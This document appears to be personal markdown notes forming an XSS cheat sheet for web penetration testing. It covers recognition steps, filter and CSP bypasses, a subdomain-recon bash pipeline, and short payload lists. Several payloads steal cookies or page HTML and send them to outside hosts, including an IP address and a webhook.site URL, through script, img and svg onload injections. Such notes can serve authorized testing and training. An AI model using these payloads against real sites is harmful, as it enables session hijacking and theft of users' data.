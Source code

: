 ## Cheat sheet

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


---

## Recognition

1. Figure out where it goes. Does it get embedded in a tag attribute ? into a string in a script tag ?
2. Figure out any special handling : Do URLs get turned into links ?
3. Figure out how special characters are handled : Try these `1234```'<>:;"'`

- From those 3 steps, you'll know whether or not a givin input is vulnerable to XSS.
r(reflected)XSS are dependent on CSRF vulnerabilities to be exploitable, in the case of POST. If rXSS in GET, you are dependent on CSRF otherwise.

- Example 1 : Testing character, angle brackets ```<>``` are passed through without encoding
and text is shown in a text node of the document. Here a simple ```<script>alert("XSS");</script>``` will work.

- Example 2 : THe input is reflected in a tag attribute. You have to break out of the attribute, but in most cases you don't need to leave the tag; meaning no need for angle brackets.

--- 

## Encoding is done using HTML-encoding

- Named : `<` equal `&lt`, `>` equals `&gt;`, `"` equals `&quot;`, `&` equals `&amp;`
- Hex : use `man ascii`, for ex `'` is `0x27` equals `&#x27;`. Same principle for the others.
- Decimal : use `man ascii`, for ex `<` is `60` equals `&#60`, same principle for the others.

---

## Try playing with uppercase and lowercase

---

## Sometimes, it's not filtered recursively :

`https://example.com/test.php?arg=<scr<script>ipt>alert('1')</scr</script>ipt>`

---

## Script word is blocked

- with the `<a` tag and for the following events: `onmouseover` (you will need to pass your mouse over the link), `onmouseout, onmousemove, onclick` ...

- with the `<a` tag directly in the URL: `<a href='javascript:alert(1)'...` (you will need to click the link to trigger the JavaScript code and remember that this won't work since you cannot use script in this example).

- with the `<img` tag directly with the event onerror: `<img src='zzzz' onerror='alert(1)' />`.

- with the `<div` tag and for the following events: `onmouseover` (you will need to pass your mouse over the link), `onmouseout, onmousemove, onclick`...
...

---

## Alert() is blocked

Use console.log or eval and stringfromcharcode

- Encode alert(1) in decimal : 97 108 101 114 116 40 49 41 

---

## Used inside a var

escape from it (generally with a `"`), add `;`, write your code and comment the end with `\\` or add another variable `var $dummy = "`

---

## Don't check just the field box, check also by adding stuff in the url

For example, you found an input field but the characters are encoded. Viewing the page source, and adding stuff at the end of the url, you see that it's reflected in the page source : `/index.php/tezfzefze` is inside the page source. Try to inject your stuff here too !

---

## Short cheat sheet 

```
"><h1>test</h1>"
'+alert(1)+'
"onmouseover="alert(1)
http://"onmouseover="alert(1)
```
If one of these work, you just have to find the good one !

---


## With an iframe , it's possible to get same result but in a stealthier manner :

```<iframe SRC="http://10.11.0.156:81/report" height = “0” width = “0”></iframe>```


---

## Steal the cookies :

```<script>new Image().src="http://10.11.0.156:4441/bogus.php?output="%2Bdocument.cookie;</script>```

```
<script>document.write("<img src='https://webhook.site/ae4ca108-7f0c-4ae2-98d7-e47976330ad1?test="+document.cookie+"'></img>");</script>
```

---

## TOOL TO TEST 

https://github.com/Damian89/extended-xss-search

---

## Check how it is reflected

- Any weird character ? Encoded ? Double encoded ? 


---

## Bypass CSP

- Check the header content-security-policy (burp or dev tools)
- Copy paste the url or the header into https://csp-evaluator.withgoogle.com/
- Don't bother with the warning about object-src, too old thing.


### default-src 

- means that it will only execute javascript from the server. So here, use the javascript at your disposal from the server.

-  To solve it : according to the documentation, the srcdoc attribute overrides the src attribute and specifies the HTML content to show inside the iframe. But most importantly, the iframe with the srcdoc attribute is not cross domain, meaning that the content will be treated as coming from the same domain as the parent-page. 

```<iframe srcdoc="<script src=...></script>"></iframe>```

Example from the intigriti easter xss challenge : ```<iframe srcdoc="<script src=https://challenge.intigriti.io/'-alert(document.domain)-'></script>"></iframe>```

### Resources :
https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/
https://www.nccgroup.com/us/about-us/newsroom-and-events/blog/2019/april/a-novel-csp-bypass-using-data-uri/


### Simple XSS Check

By @TobiunddasMoe


```
#!/bin/bash
# $1 => example.domain

subfinder -d $1 -o domains_subfinder_$1
amass enum --passive -d $1 -o domains_$1

cat domains_subfinder_$1 | tee -a domain_$1
cat domains_$1 | filter-resolved | tee -a domains_$1.txt

cat domains_$1.txt | ~/go/bin/httprobe -p http:81 -p http:8080 -p https:8443 | waybackurls | kxss | tee xss.txt

```

### Prove impact easily

- ```xsscope```

---

## exfiltrate content without script tag  


use webhook.site, and replace the url inside

```
<svg onload="window.location.href = '//webhook.site/ae4ca108-7f0c-4ae2-98d7-e47976330ad1?c='+btoa(document.documentElement.innerHTML)">
```

Then go on webhook.site and wait for the cookie.

With img : 

```
<svg onload="new Image().src='//example.com/?x='+btoa(document.documentElement.innerHTML)">
```

